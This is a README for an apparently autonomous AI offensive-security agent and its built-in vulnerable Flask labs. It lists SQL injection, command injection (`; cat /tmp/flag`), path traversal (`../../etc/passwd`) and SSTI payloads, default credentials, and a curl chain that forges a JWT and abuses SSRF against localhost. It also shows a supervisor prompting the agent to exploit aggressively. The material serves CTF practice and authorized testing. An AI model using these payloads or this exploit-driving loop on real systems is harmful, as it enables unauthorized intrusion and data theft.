

<p align="center">
  
</p>
<h1 align="center">Medusa</h1>
<h2 align="center"><em>Autonomous Offensive Security — Built for Hunters</em></h2>

<p align="center" style="font-size: 120%;">
  A LangGraph-powered autonomous agent for bug bounty hunters, security researchers, and CTF players. Chain reconnaissance, exploitation, and post-exploitation into a single pipeline. Deploy parallel subagents, query a persistent knowledge graph, generate audit trails with attack-chain diagrams, and produce comprehensive engagement reports — all from your terminal. From first packet to final report, with human oversight at every critical step.
</p>

<br/>

<p align="center">
  <b>67 Tools</b> &nbsp;·&nbsp; <b>40 Modules</b> &nbsp;·&nbsp; <b>45+ Attack Skills</b> &nbsp;·&nbsp; <b>Parallel Subagents</b> &nbsp;·&nbsp; <b>LLM Supervisor</b> &nbsp;·&nbsp; <b>20 Bridge Modules</b> &nbsp;·&nbsp; <b>28 Tests Passing</b>
  <br/>
  
  
  
  
  
  
</p>

<br/>

<p align="center">
  <a href="https://asciinema.org/a/dZLVx7Y85Itc68Mj">
    
  </a>
</p>
<p align="center">
  <a href="assets/demo.py"></a>
  <a href="https://asciinema.org"></a>
</p>
<p align="center">
  <em>15-step autonomous engagement: nmap >> .git leak >> AWS IAM keys >> JWT forge >> SSRF metadata >> S3 bucket >> 3 flags captured. $0.42 in API costs.</em>
</p>

<br/>

<h2 align="center">Table of Contents</h2>

<p align="center">
  <a href="#who-is-this-for">Who Is This For?</a> &nbsp;·&nbsp;
  <a href="#from-recon-to-flag--one-continuous-pipeline">Pipeline</a> &nbsp;·&nbsp;
  <a href="#deliberately-vulnerable-labs----built-in">Labs</a> &nbsp;·&nbsp;
  <a href="#quick-start">Quick Start</a> &nbsp;·&nbsp;
  <a href="#architecture">Architecture</a> &nbsp;·&nbsp;
  <a href="#configuration">Configuration</a> &nbsp;·&nbsp;
  <a href="#supervisor----zero-cost-oversight">Supervisor</a> &nbsp;·&nbsp;
  <a href="#subagent-system">Subagents</a> &nbsp;·&nbsp;
  <a href="#runtime-controls">Runtime</a> &nbsp;·&nbsp;
  <a href="#testing">Testing</a> &nbsp;·&nbsp;
  <a href="#portability">Portability</a> &nbsp;·&nbsp;
  <a href="#maintainers">Maintainers</a>
</p>

<br/>

> **LEGAL DISCLAIMER**: This tool is intended for **authorized security testing**, **educational purposes**, and **research only**. Never use this system to scan, probe, or attack any system you do not own or have explicit written permission to test. Unauthorized access is **illegal** and punishable by law. By using this tool, you accept **full responsibility** for your actions.

<br/>

---

<h2 align="center">Who Is This For?</h2>

<table>
<tr>
<td width="33%" valign="top">

<p align="center"></p>

### Bug Bounty Hunters
Automate reconnaissance across thousands of targets. Let Medusa handle the repetitive work -- subdomain enumeration, port scanning, directory brute-forcing, technology fingerprinting -- while you focus on the high-value vulnerabilities that require human intuition. The knowledge graph remembers every blocked WAF pattern, every confirmed CVE, and every discovered endpoint so you never test the same dead end twice. Generate professional reports with attack-chain diagrams for your submission write-ups.

</td>
<td width="33%" valign="top">

<p align="center"></p>

### Security Researchers
Explore novel attack paths with an agent that chains techniques across protocols. SSRF to internal APIs, JWT algorithm confusion to privilege escalation, GraphQL introspection to cross-tenant data access -- Medusa handles the multi-step chains while you direct the strategy. Built-in labs with 23 deliberate vulnerabilities across two SaaS applications let you benchmark the agent's capabilities and understand how AI reasons through attack surfaces.

</td>
<td width="33%" valign="top">

<p align="center"></p>

### CTF Players
Speed-run capture-the-flag challenges with an agent that parallelizes reconnaissance across multiple services simultaneously. Deploy subagents to attack different ports, different endpoints, and different vulnerability classes all at once. The supervisor watches for missed flags, repeating patterns, and unexploited vulnerabilities -- keeping the agent on track when you need to step away. Use the built-in CloudBoard Next lab (15 vulns, 5 flags) to practice and tune your prompt engineering.

</td>
</tr>
</table>

<br/>

---

<h2 align="center">From Recon to Flag — One Continuous Pipeline</h2>
<p align="center">
  <b><samp><big>Reconnaissance >> Credential Extraction >> JWT Forgery >> Privilege Escalation >> Flag Capture >> Audit Report</big></samp></b>
  <br/><br/>
  Medusa doesn't just scan. It thinks. Every iteration follows a structured Thought >> Action >> Observation loop powered by LangGraph. The agent discovers services, extracts secrets from exposed .git directories and source maps, forges authentication tokens, escalates privileges through GraphQL mass assignment and JWT attacks, exploits SSTI and command injection, chains SSRF to internal APIs, and captures flags -- all while a zero-cost supervisor watches for loops, missed opportunities, and stalls. Every step is logged to a persistent audit trail. At the end, a comprehensive Markdown report is generated with Mermaid attack-chain diagrams, finding tables, and full execution traces.
</p>

<br/>

<h2 align="center">Deliberately Vulnerable Labs -- Built In</h2>
<p align="center">
  <em>Two hands-on labs with 23 total vulnerabilities across realistic SaaS applications. No Docker, no external dependencies -- just Python and Flask.</em>
</p>
<br/>


### CloudBoard Next -- 3-Service Modern SaaS

> **Ports 5800, 5801, 5802** -- **15 vulnerabilities** -- **5 flags**

A realistic multi-service SaaS with JWT auth, GraphQL, SSE real-time notifications, multi-tenant isolation, OAuth, and a legacy admin panel. Forces the agent to chain attacks across services.

```bash
python3 medusa/lab/cloudboard_next/app.py
```

<table>
<tr><th>#</th><th>Vulnerability</th><th>Location</th><th>Difficulty</th><th>Attack Chain</th></tr>
<tr><td>1</td><td><b>SQLi Login Bypass</b></td><td><code>POST /login</code> :5800</td><td>Easy</td><td><code>admin' OR '1'='1' --</code></td></tr>
<tr><td>2</td><td><b>JWT alg:none + kid injection</b></td><td>All JWT endpoints</td><td>Medium</td><td>Forge admin token >> access /admin</td></tr>
<tr><td>3</td><td><b>OAuth open redirect</b></td><td><code>/oauth/authorize</code></td><td>Medium</td><td>Token theft via redirect_uri bypass</td></tr>
<tr><td>4</td><td><b>GraphQL introspection + IDOR</b></td><td><code>/graphql</code></td><td>Medium</td><td>Schema dump >> cross-tenant user query</td></tr>
<tr><td>5</td><td><b>GraphQL mass assignment</b></td><td><code>updateProfile</code> mutation</td><td>Medium</td><td>Set role=admin on any user</td></tr>
<tr><td>6</td><td><b>SSTI (email templates)</b></td><td><code>/admin/templates</code></td><td>Medium</td><td><code>{{config}}</code> >> server RCE</td></tr>
<tr><td>7</td><td><b>Stored XSS + SSE broadcast</b></td><td>Comments >> <code>/ws</code></td><td>Medium</td><td><code>&lt;script&gt;</code> >> all connected clients</td></tr>
<tr><td>8</td><td><b>SSRF (webhook tester)</b></td><td><code>/admin/webhooks/test</code></td><td>Hard</td><td>>> :5801 internal API >> flag</td></tr>
<tr><td>9</td><td><b>XXE (SVG OCR upload)</b></td><td><code>/files/ocr</code></td><td>Hard</td><td>DOCTYPE entity >> file read</td></tr>
<tr><td>10</td><td><b>Command injection (export)</b></td><td><code>/admin/export</code></td><td>Medium</td><td><code>; cat /tmp/flag</code></td></tr>
<tr><td>11</td><td><b>Exposed .git directory</b></td><td><code>/.git/HEAD</code></td><td>Easy</td><td>>> JWT secret + API keys leak</td></tr>
<tr><td>12</td><td><b>Source map leak</b></td><td><code>/static/js/app.js.map</code></td><td>Easy</td><td>>> <code>FLAG{src_map_leak}</code></td></tr>
<tr><td>13</td><td><b>IDOR profile view</b></td><td><code>/profile/view/&lt;id&gt;</code></td><td>Easy</td><td>View any user across tenants</td></tr>
<tr><td>14</td><td><b>Internal API no auth</b></td><td><code>:5801/api/admin/*</code></td><td>Medium</td><td>Header spoof >> config + flag</td></tr>
<tr><td>15</td><td><b>Legacy admin weak auth</b></td><td><code>:5802/login</code></td><td>Easy</td><td>Hardcoded token bypass</td></tr>
</table>

```bash
# Rapid exploitation chain
curl -s http://127.0.0.1:5800/.git/COMMIT_EDITMSG              # >> jwt_s3cr3t_cbn_2026
python3 -c "import jwt; print(jwt.encode({'user_id':1,'role':'admin'},'jwt_s3cr3t_cbn_2026',algorithm='HS256'))"
curl -s http://127.0.0.1:5800/admin/flag -H "Authorization: Bearer <token>"  # >> FLAG{admin_panel_rce}
curl -s -X POST http://127.0.0.1:5800/admin/webhooks/test \
  -d 'url=http://127.0.0.1:5801/api/admin/flag'                           # >> FLAG{internal_ssrf}
```

---

### DevOps Dashboard -- RCE Lab

> **Port 5700** -- **8 vulnerabilities** -- **Multi-step chain**

Internal monitoring tool with command injection, SSTI, SQL injection, path traversal, and hardcoded credentials.

```bash
python3 medusa/lab/devops_dashboard/app.py
```

| # | Vulnerability | Endpoint | Payload |
|:-:|:-------------|:---------|:--------|
| 1 | SQL injection | `POST /login` | `admin' OR '1'='1' --` |
| 2 | Default credentials | `/login` | `admin:DevOpsAdmin#2026!` |
| 3 | Command injection | `/admin/ping` | `; cat /tmp/raxaid_flag.txt` |
| 4 | SSTI | `/settings` | `{{config}}` >> server config leak |
| 5 | Path traversal | `/logs?file=...` | `../../etc/passwd` |
| 6 | Hardcoded API key | `/static/js/app.js` | `dk_api_4a2f8b1c9d3e` |
| 7 | IDOR | `/api/users/<id>` | Cross-user data access |
| 8 | File upload bypass | `/admin/files` | `.pyc`/`.sh` >> `/admin/exec` |

---

<br/>

<h2 align="center">Quick Start</h2>

### Prerequisites

| Requirement | Details |
|:------------|:--------|
| **Python** | 3.10+ |
| **OS** | macOS, Linux, Windows |
| **API Key** | DeepSeek, HuggingFace, Gemini, or Anthropic |

```bash
git clone https://github.com/medusa/medusa-security.git
cd medusa-security
pip install -r medusa/requirements.txt

# Set your API key
echo "DEEPSEEK_API_KEY=sk-..." > .env

# Launch
python3 medusa/main.py
```

---

## Architecture



---

## Configuration

```json
{
    "provider": "deepseek",
    "deepseek_model": "deepseek-v4-flash",
    "max_iterations": 100,
    "temperature": 0.4,
    "supervisor_interval": 5,
    "cost_hard_cap_usd": 500.0,
    "mode_deploy_subagent": true,
    "mode_audit_trail": true,
    "mode_hotreload_skills": true,
    "report_auto_export": true,
    "report_format": "markdown",
    "subagent_count": 2
}
```

| Provider | Models | Env Var |
|:---------|:-------|:--------|
| **DeepSeek** | `deepseek-v4-flash`, `deepseek-v4-pro` | `DEEPSEEK_API_KEY` |
| **HuggingFace** | Qwen, GLM, DeepSeek via TGI | `HF_API_KEY` |
| **Gemini** | `gemini-2.5-pro`, `gemini-2.5-flash` | `GEMINI_API_KEY` |
| **Anthropic** | `claude-opus-4-7`, `claude-sonnet-4-6` | `ANTHROPIC_API_KEY` |

---

## Supervisor -- Zero-Cost Oversight

Runs silently every 5 iterations. Pure pattern matching -- **no LLM calls, zero API cost**.

| Pattern | Trigger | Intervention |
|:--------|:--------|:-------------|
| Loop | Same tool 3x consecutively | *"Try a DIFFERENT approach. Switch tool or attack vector."* |
| Bookkeeping Trap | 4+ turns of notes/jobs | *"STOP documenting. START exploiting NOW."* |
| Missed Flag | `FLAG{...}` found but not claimed | *"Claim it IMMEDIATELY with claim_flag."* |
| Unfollowed Vuln | Vuln discovered, no follow-up | *"Test the vulnerability NOW. Don't pivot."* |
| Failing Subagents | 3+ subagents returned empty | *"Subagents keep failing. Run the task yourself."* |
| Stall | 5 turns with no new info | *"Radically change approach or generate report."* |

---

## Subagent System

```json
{
  "action": "deploy_subagent",
  "subagent_task": "SQLi on /login || XSS on /search || SSTI on /profile",
  "thought": "Parallelizing attack vectors across all endpoints"
}
```

| Property | Value | Description |
|:---------|:------|:------------|
| Max concurrent | 3 | Controlled via semaphore |
| Max steps | 5 | Per subagent iteration limit |
| LLM timeout | 45s | Per subagent LLM call |
| Tool timeout | 60s | Per tool execution |
| Total timeout | 95s | Hard cap on deployment |
| Crash isolation | Yes | One failure doesn't kill others |
| Chain persistence | Yes | Results in chain_findings_memory |

---

## Runtime Controls

| Command | Context | Action |
|:--------|:--------|:-------|
| `Ctrl+C` | During run | Pause agent, enter guidance mode |
| `/report` | Paused | Force-generate Markdown report + end audit |
| `/audit` | Paused | Print current audit trail |
| `/state` | Paused | Print agent state (phase, iterations, cost) |
| `/sessions` | Paused | List saved sessions for replay |

```
#1 + informational
  Starting reconnaissance on ports 5800, 5801, 5802...
  > execute_terminal nmap -sV -sC -p 5800,5801,5802 127.0.0.1
  output BG JOB a7ebbf04 -- Check: job_status a7ebbf04

Supervisor: You found a FLAG in the output but didn't claim it!
```

---

## Testing

```bash
python3 medusa/tests/test_agent_helpers.py
```

```
  [PASS] test_prompt_safety        [PASS] test_hard_guardrail
  [PASS] test_error_class           [PASS] test_json_utils
  [PASS] test_parsing               [PASS] test_productivity
  [PASS] test_state                 [PASS] test_skill_loader
  [PASS] test_tool_registry         [PASS] test_workspace_fs

                        10/10 tests passed
```

---

## Portability

All paths resolve via `Path(__file__).resolve().parent`. Rename the project folder freely -- everything still works.

```
medusa/main.py           >> os.path.dirname(os.path.dirname(os.path.abspath(__file__)))
medusa/modules/loader.py >> Path(__file__).resolve().parent.parent
medusa/tools/dispatch.py >> Path(__file__).resolve().parent.parent
```

Requirements: `medusa/` and `Modules/` at same level, `medusa_agent/` at project root, symlink `medusa/medusa_agent >> ../medusa_agent`

---

<h2 align="center">Maintainers</h2>

<table>
<tr>
<td align="center" valign="top" width="50%">
<p align="center"></p>
<b>William Jiang</b>: Creator & Lead Developer<br/><br/>
<small>AI/ML engineer and security researcher. Designed the LangGraph state machine, subagent spawning system, supervisor pattern detector, knowledge graph integration, and 15-vulnerability CloudBoard Next lab.</small><br/><br/>
<a href="https://github.com/williamjiang">GitHub</a>
</td>
<td align="center" valign="top" width="50%">
<b>Roland Poon</b>: Co-Creator & Marketing<br/><br/>
<small>Our marketing leader specializing in spreading this project to everyone who should have it.</small><br/><br/>
<a href="https://github.com/rolandpoon">GitHub</a>
</td>
</tr>
</table>

---

<p align="center">
  <sub>Licensed under MIT - Inspired by <a href="https://github.com/samugit83/redamon">RedAmon</a> & <a href="https://github.com/sakana-ai/Fugu">Sakana Fugu</a></sub>
</p>
